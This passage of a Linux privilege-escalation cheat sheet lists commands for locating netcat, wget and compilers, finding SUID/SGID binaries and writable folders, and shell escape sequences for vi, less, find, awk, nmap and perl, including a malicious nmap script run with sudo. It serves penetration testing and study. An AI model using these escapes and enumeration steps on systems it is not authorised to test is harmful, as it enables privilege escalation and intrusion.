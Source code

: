 - `find / -name %program_name% 2>/dev/null` (i.e. nc, netcat, wget, nmap etc)	Locate ‘useful’ programs (netcat, wget etc)
- `which %program_name%` (i.e. nc, netcat, wget, nmap etc)	As above
- ```dpkg --list 2>/dev/null | grep compiler |grep -v decompiler 2>/dev/null && yum list installed 'gcc*' 2>/dev/null| grep gcc 2>/dev/null```	List available compilers
- ```cat /etc/apache2/envvars 2>/dev/null |grep -i 'user|group' |awk '{sub(/.*export /,"")}1'```	Which account is Apache running as

---

# Common Shell Escape Sequences:
### Command	Program(s)
:!bash	vi, vim
:set shell=/bin/bash:shell	vi, vim
!bash	man, more, less
find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ; 	find
awk 'BEGIN {system("/bin/bash")}'	awk
--interactive	nmap
echo "os.execute('/bin/sh')" > exploit.nse

sudo nmap --script=exploit.nse	nmap (thanks to comment by anonymous below)
perl -e 'exec "/bin/bash";'	Perl

---

# What "Advanced Linux File Permissions" are used? Sticky bits, SUID & GUID
- `find / -perm -1000 -type d 2>/dev/null`    # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here
- `find / -perm -g=s -type f 2>/dev/null`    # SGID (chmod 2000) - run as the  group, not the user who started it.
- `find / -perm -u=s -type f 2>/dev/null`    # SUID (chmod 4000) - run as the  owner, not the user who started it.
- `find / -perm -g=s -o -perm -u=s -type f 2>/dev/null`    # SGID or SUID
- `for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done`    # Looks in 'common' places: /bin, /sbin, /usr/bin, /usr/sbin, /usr/local/bin, /usr/local/sbin and any other *bin, for SGID or SUID (Quicker search)

---

# find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hide any errors (e.g. permission denied)
- `find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null`

---

# Where can written to and executed from? A few 'common' places: /tmp, /var/tmp, /dev/shm
- `find / -writable -type d 2>/dev/null`        # world-writeable folders
- `find / -perm -222 -type d 2>/dev/null`      # world-writeable folders
- `find / -perm -o+w -type d 2>/dev/null`    # world-writeable folders
- `find / -perm -o+x -type d 2>/dev/null`    # world-executable folders
- `find / \( -perm -o+w -perm -o+x \) -type d 2>/dev/null`   # world-writeable & executable folders

---